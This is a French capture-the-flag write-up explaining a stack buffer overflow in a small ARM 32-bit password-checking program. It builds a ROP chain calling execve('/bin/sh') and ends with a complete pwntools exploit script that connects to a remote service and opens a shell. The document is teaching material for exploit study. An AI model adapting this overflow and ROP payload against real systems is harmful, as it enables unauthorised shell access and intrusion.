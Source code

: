 # Raptor Of Power!

Le code est en langage d'assembleur, écrit pour architecture ARM 32 bits.

Ne paniquez pas, restez calmes...

Il s'agit d'un programme qui demande un mot de passe à l'utilisateur, le compare à un mot de passe super méga secret, et affiche un message selon le résultat de la comparaison. J'aurais pu le faire en C, mais j'avais un peu de temps pendant mon stage, alors bon.

## Découverte du code

```asm
.global _start
```

Le symbole `_start` sera le point d'entrée de notre programme, un peu comme la fonction `main` en C. On le fait savoir au lieur ("linker" pour those who parlent fluently l'english). On y reviendra plus tard.

---

```asm
.section .data
```

C'est dedans qu'on définit les variables globales, comme les chaînes de caractères qui s'afficheront. On remarque le symbole `binsh` dont la valeur est "/bin/sh". Coïncidence ? Je ne pense pas...

---

```asm
.section .text
```

Bon, là ça se corse. Le symbole `_start` (le point d'entrée du programme), affiche simplement un message de bienvenue, et invite l'apprenti pwner que vous êtes à entrer un mot de passe. Ensuite, la ligne `bl _authenticate` est un appel à la fonction... `_authenticate`. À la fin, on appelle le syscall `exit`, dont le numéro est 1. Une liste plutôt bien fournie des syscalls est consultable [ici](https://syscalls.mebeim.net/?table=arm/32/eabi/latest).

### La fonction `_authenticate`

L'instruction `push` est là pour sauvegarder les registres sur la stack. On retrouve donc forcément plus tard l'instruction inverse `pop`, qui restaure les registres depuis la stack.

On réserve ensuite un espace de 32 octets sur la stack: `sub sp, #32`. "sp" est le registre qui pointe vers le "haut" de la stack.

```asm
mov r7, #3
mov r0, #0
mov r1, sp
mov r2, #200
svc #0
```

Ces quelques lignes lisent l'entrée depuis `stdin`, et stocke la chaîne dans la stack.

On passe directement à la fin de la fonction :

```asm
pop {r0, r1, r2, fp, pc}
```

On restaure simplement les registres depuis la stack.
Le reste n'est pas intéressant, il sert simplement à comparer l'entrée avec le vrai mot de passe.

## La vulnérabilité

Vous l'avez sans doute compris, on écrit au plus 200 octets alors qu'on n'en avait prévu que 32. On pourra donc écrire au-delà du buffer. En plus, le `pop` à la fin de `_authenticate` restaure les registres en fonction de ce qu'il trouve sur la stack.

Nous aurons donc la possibilité de contrôler les registres `r0`, `r1`, `r2`, `fp` et `pc`. Et comme `pc` contient l'adresse de la prochaine instruction à exécuter (comme `rip / eip` pour intel), on pourra mettre une autre instruction.

## L'exploitation

Notre objectif étant de lire le fichier flag.txt, on doit avoir un shell. On va alors construire une ROP chain. On appellera donc le syscall `execve`, qui prend comme paramètres le programme à appeler ("/bin/sh" dans notre cas), et les éventuels paramètres et variables d'environnement à lui donner. On va les mettre à 0, vu que ces paramètres ne servent pas ici.

L'appel ressemble donc à `execve("/bin/sh", NULL, NULL)`.

On a vu que grâce à l'instruction `pop {r0, r1, r2, fp, pc}` (à l'adresse 0x100dc) appelée directement, on peut directement écrire les 3 paramètres de `execve` (dans `r0`, `r1`, et `r2`). `fp` pourra prendre n'importe quelle valeur. `pc` contient l'adresse de la prochaine instruction à exécuter, et on le contrôle aussi. L'instruction `pop {r7, fp, pc}` (à l'adresse 0x1013c) nous permettra de contrôler `r7` qui contient le numéro de l'appel système, pour `execve` c'est 11.

Enfin, il nous faut le gadget pour l'appel système, pour réellement exécuter `execve`. Il y a une instruction `svc #0` à l'adresse 0x10138.

Script Python qui implémente tout ça :

```Python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./raptor_of_power")

context.binary = exe

POP_r7_fp_pc = 0x1013c
SVC = 0x10138
binsh = 0x1020a


def main():
    r = remote(HOST, PORT)
    rop = b"A" * 32
    rop += p32(binsh)           # r0
    rop += p32(0)               # r1
    rop += p32(0)               # r2
    rop += p32(0)               # fp
    rop += p32(POP_r7_fp_pc)    # pc
    rop += p32(11)              # r7
    rop += p32(0)               # fp
    rop += p32(SVC)             # pc

    r.sendlineafter(b"cave: ", rop)

    r.interactive()


if __name__ == "__main__":
    main()
```
